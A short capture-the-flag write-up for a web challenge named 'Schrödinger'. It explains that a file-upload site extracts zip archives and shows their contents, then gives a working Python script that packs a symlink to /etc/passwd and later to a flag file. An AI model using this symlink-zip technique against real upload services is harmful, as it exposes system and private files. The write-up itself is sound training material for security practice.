



# Web

##  Schrödinger 


### Info




## solution:

this One was a lil easy to solve because i saw this vulnerabilty before so it's website with file-upload function:

we can try to upload php shell or whatever bur it doesnt work because the website  `unzip zip files and show the output of files`

it's just using this script to create a file named for exemple `evil_symlink` that have a symbolic link to the `/etc/passwd` file and zip it 
```python
import zipfile

def compress_file(filename):
    zipInfo = zipfile.ZipInfo(".")
    zipInfo.create_system = 3
    zipInfo.external_attr = 2716663808
    zipInfo.filename = filename
    
    with zipfile.ZipFile('payload.zip', 'w') as zipf:
        zipf.writestr(zipInfo, "/etc/passwd")

filename = 'evil_symlink'

compress_file(filename)
```

when we pass the zip file  to the server , this server doesnt check if the file inside the zip is symLinked to another file so it unzip it and show the content of the`/etc/passwd` :


no we have the user name so just changing the script above to reading this `"/home/copenhagen/flag.txt"`
and we upload the zip file and we git the flag:



